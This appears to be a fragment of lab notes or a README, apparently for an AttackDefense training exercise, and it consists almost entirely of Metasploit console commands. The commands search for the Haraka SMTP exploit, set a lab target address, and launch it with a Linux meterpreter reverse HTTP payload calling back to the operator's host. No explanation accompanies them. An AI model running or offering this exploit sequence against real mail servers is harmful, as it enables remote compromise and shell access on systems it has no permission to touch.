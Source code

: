 
- __`search type:exploit name:haraka`__
```
use exploit/Linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload Linux/x64/meterpreter_reverse_http
set LHOST <yourip>
exploit
```
